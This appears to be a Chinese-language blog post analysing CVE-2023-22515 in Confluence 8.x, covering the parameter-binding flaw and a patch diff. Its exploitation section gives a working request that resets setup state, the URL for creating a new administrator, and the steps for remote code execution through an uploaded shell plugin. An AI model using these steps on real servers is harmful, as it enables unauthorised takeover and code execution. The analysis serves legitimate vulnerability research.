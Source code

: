 title: CVE-2023-22515 Confluence Broken Authentication
author: Bmth
tags:
  - CVE-2023-22515
  - Confluence
top_img: 'https://img-blog.csdnimg.cn/1edf094c48a445d596d149356ca305fe.png'
cover: 'https://img-blog.csdnimg.cn/1edf094c48a445d596d149356ca305fe.png'
categories:
  - 漏洞分析
date: 2023-11-05 02:41:00
---
![](https://img-blog.csdnimg.cn/1edf094c48a445d596d149356ca305fe.png)

虽迟但到，CVSS评分为10分的漏洞，还是值得看看的

官方通告：
[https://jira.atlassian.com/browse/CONFSERVER-92475](https://jira.atlassian.com/browse/CONFSERVER-92475)
[https://confluence.atlassian.com/security/cve-2023-22515-broken-access-control-vulnerability-in-confluence-data-center-and-server-1295682276.html](https://confluence.atlassian.com/security/cve-2023-22515-broken-access-control-vulnerability-in-confluence-data-center-and-server-1295682276.html)

影响版本：
```
 8.0.0, 8.1.0, 8.2.0, 8.3.0, 8.4.0, 8.5.0, 8.0.1, 8.0.2, 8.0.3, 8.0.4, 8.1.1, 8.1.3, 8.2.1, 8.1.4, 8.2.2, 8.2.3, 8.3.1, 8.3.2, 8.4.1, 8.4.2, 8.5.1 
```

## 漏洞分析
下载存在漏洞的版本以及修复版本：
```
https://product-downloads.atlassian.com/software/confluence/downloads/atlassian-confluence-8.5.1.zip
https://product-downloads.atlassian.com/software/confluence/downloads/atlassian-confluence-8.5.2.zip
```
添加动态调试，找到service的名字，执行`tomcat9w.exe //ES//Confluence041123021026`
![](https://img-blog.csdnimg.cn/d661a18cf35e4185b3dc70e00a61d6cf.png)

在Java Options添加
```
-agentlib:jdwp=transport=dt_socket,server=y,suspend=n,address=*:5005
```


### XWork框架
Confluence 使用了 XWork 框架，它允许通过 HTTP 请求来设置 Java 对象的参数：[XWork Plugin Complex Parameters and Security](https://developer.atlassian.com/server/confluence/xwork-plugin-complex-parameters-and-security/)
>XWork allows the setting of complex parameters on an XWork action object. For example, a URL parameter of `formData.name=Charles` will be translated by XWork into the method calls `getFormData().setName("Charles")` by the XWork parameters interceptor. If `getFormData()` returns null, XWork will attempt to create a new object of the appropriate return type using its default constructor, and then set it with `setFormData(newObject)`

而Confluence的处理方案是使用SafeParametersInterceptor拦截器
```xml
<interceptor name="params" class="com.atlassian.xwork.interceptors.SafeParametersInterceptor"/>
```
看到 com.atlassian.struts2_struts-support-1.1.0.jar 中的`com.atlassian.xwork.interceptors.SafeParametersInterceptor#doIntercept`
![](https://img-blog.csdnimg.cn/0f4aea53fbe8419baca94d5a3348754d.png)

首先看到 before 方法
![](https://img-blog.csdnimg.cn/a918afb9db224538bac08b9fe81dc953.png)

调用 filterSafeParameters 对参数进行处理
![](https://img-blog.csdnimg.cn/744e772f29804d758ed870cd7ba788c3.png)

isSafeParameterName
![](https://img-blog.csdnimg.cn/7500d14f6421488c822d402cd7280024.png)

该方法会对传入的参数进行判断，如果包含关键字或者满足正则匹配则返回false
```
BLOCKED_PARAMETER_NAMES: actionErrors、actionMessages
EXCLUDE_CLASS_PATTERN: .*class[^a-z0-9_].*
SAFE_PARAMETER_NAME_PATTERN: \w+((\.\w+)|(\[\d+\])|(\['[\w.]*'\]))*
MAP_PARAMETER_PATTERN: .*\['[a-zA-Z0-9_]+'\]
```
最后会调用 isSafeComplexParameterName 方法
![](https://img-blog.csdnimg.cn/7042ae3b3e1a4f06a039a184b6841cfa.png)

检查该类的 getter / setter 或者其 returnType 是否使用了`@ParameterSafe`注解
```java
private static boolean isSafeMethod(Method writeMethod) {
    boolean isAnnotationTrue = false;
    boolean isReturnTypeTrue = false;
    if (writeMethod != null) {
        isAnnotationTrue = writeMethod.getAnnotation(ParameterSafe.class) != null;
    }

    if (writeMethod.getReturnType() != null) {
        isReturnTypeTrue = writeMethod.getReturnType().getAnnotation(ParameterSafe.class) != null;
    }

    return isAnnotationTrue || isReturnTypeTrue;
}
```
如果没有实现`@ParameterSafe`注解，那么 isSafeMethod 就会返回 false

这么一看，漏洞成立需要绕过黑名单验证，并且满足`@ParameterSafe`注解，利用条件十分苛刻

但怪就怪在它又调用了`super.doIntercept(invocation)`，即 Struts2 自带的 ParametersInterceptor 重新处理了一遍参数
![](https://img-blog.csdnimg.cn/c645b35bc3674e9c8ae96bb92c5ccce0.png)

而这就导致属性覆盖，因此 v8.x 版本可以被利用

### 补丁比较
diff一下 com.atlassian.confluence_confluence-8.5.1.jar 和 com.atlassian.confluence_confluence-8.5.2.jar 文件

struts.xml：
![](https://img-blog.csdnimg.cn/2a70dbb8ebea48a6b161baa3c8704092.png)

主要是删除了server-info action
看到`com.atlassian.confluence.core.actions.ServerInfoAction`
![](https://img-blog.csdnimg.cn/c38470f66e124121870891c7d580fb34.png)

该类本身没什么特别的，主要是父类ConfluenceActionSupport
`com.atlassian.confluence.core.ConfluenceActionSupport`
![](https://img-blog.csdnimg.cn/5085f88791d548fe932315b639055ebc.png)

有一个getter方法叫`getBootstrapStatusProvider()`，这个方法能够获取 BootstrapStatusProviderImpl 实例
`com.atlassian.confluence.impl.setup.BootstrapStatusProviderImpl`
![](https://img-blog.csdnimg.cn/bca82d824aab442899986b9b94eb48bb.png)

根据补丁可以看到修改了 getApplicationConfig 和 getSetupPersister 方法，将对象设置为ReadOnly
`com.atlassian.config.ApplicationConfig`
![](https://img-blog.csdnimg.cn/3805ca63d50f43bbb9b0d98dd1ebb620.png)

存在 setSetupComplete 方法对 setupComplete 赋值，我们可以设置这个值为false让网站进入未安装完成的状态

看到判断是否安装成功的拦截器
```xml
<interceptor name="setup" class="com.atlassian.confluence.setup.actions.SetupCheckInterceptor"/>
```
![](https://img-blog.csdnimg.cn/8e5f3cddcd4f48d092e6032dbcc87958.png)

正好会判断 setupComplete 这个值

## 漏洞利用
```
/server-info.action?bootstrapStatusProvider.applicationConfig.setupComplete=false
```
![](https://img-blog.csdnimg.cn/f5e07712ccba4e40b5969ab9d733cd37.png)

然后访问`/setup/setupadministrator-start.action`添加一个新的管理员用户即可
![](https://img-blog.csdnimg.cn/b81801efeb224fffbb16ad2ae00c199c.png)

其实不止`/server-info.action`，只要是继承了 ConfluenceActionSupport 的action，都存在该漏洞


### 上传插件RCE
X1r0z师傅已经介绍了一种RCE的方法，但是利用条件有限，需要web目录可写并且高权限用户

其实有一种更简单的方法，看到：[https://packetstormsecurity.com/files/175225/Atlassian-Confluence-Unauthenticated-Remote-Code-Execution.html](https://packetstormsecurity.com/files/175225/Atlassian-Confluence-Unauthenticated-Remote-Code-Execution.html)
可以通过上传插件实现RCE，利用工具github上已经存在了：[https://github.com/AIex-3/confluence-hack/](https://github.com/AIex-3/confluence-hack/)
![](https://img-blog.csdnimg.cn/994fc57e96204dc8ac47c7305bd576f0.png)

上传 plugin_shellplug.jar，访问`/plugins/servlet/com.jsos.shell/ShellServlet`
![](https://img-blog.csdnimg.cn/f141f1f026354c9ea0607c44fd36bfba.png)

成功RCE

参考：
[Atlassian Confluence CVE-2023-22515 分析](https://exp10it.cn/2023/10/atlassian-confluence-cve-2023-22515-%E5%88%86%E6%9E%90)
[Confluence 10分漏洞CVE-2023-22515](https://mp.weixin.qq.com/s/W2etlcCDYu-y79Tih7edRA)
[对 Confluence CVE-2023-22515 的一点分析](https://mp.weixin.qq.com/s/rIfYrO1i4LPpgCGyxSLHUg)
[https://attackerkb.com/topics/Q5f0ItSzw5/cve-2023-22515/rapid7-analysis](https://attackerkb.com/topics/Q5f0ItSzw5/cve-2023-22515/rapid7-analysis)


